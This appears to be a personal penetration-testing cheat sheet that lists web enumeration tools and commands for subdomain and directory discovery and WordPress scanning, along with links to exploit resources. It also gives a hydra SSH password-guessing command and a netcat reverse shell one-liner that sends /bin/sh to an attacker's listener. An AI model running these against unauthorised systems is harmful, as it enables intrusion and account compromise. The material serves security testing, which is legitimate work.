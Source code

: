All commands and links i need to sort.  

Good high level guide on how to pentest. https://thehackernews.com/2024/10/guide-ultimate-pentest-checklist-for.html?m=1  
Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  



## Web Enumeration ##
wappalyzer - good plugin for looking at website platforms or software. add this to my hacking soe  

crt.sh - website to search for subdomains.  

curl -u http://website - display website header and info  

whatweb www.site.com - good for looking at website platforms or software.

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  
dirbuster is a gui version of the above tools 

sublist3r -d http://website - enumerates subdirectories  (add -t 10 for multithread or faster search)

nikto -h www.site.com  - scans website for platforms or software versions. also mentions where attacks could be possible. 

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

hydra -l root -P /usr/share/wordlist ssh://ip -t 4 -V - does a password attack on ssh client.  

python3 -m http.server 80 -- Start at adhoc webserver, good for quickly sharing files.    

Simple reverse shell - Attacker machine sets up listener via nc -lvp 1337.  Target machine needs to call via nc <ipofattacker> -e /bin/sh 1337.   

## Online Tools ##
https://gchq.github.io/CyberChef/  -  
https://www.exploit-db.com/ - for manual exploit commands against vulnerabilities  
 
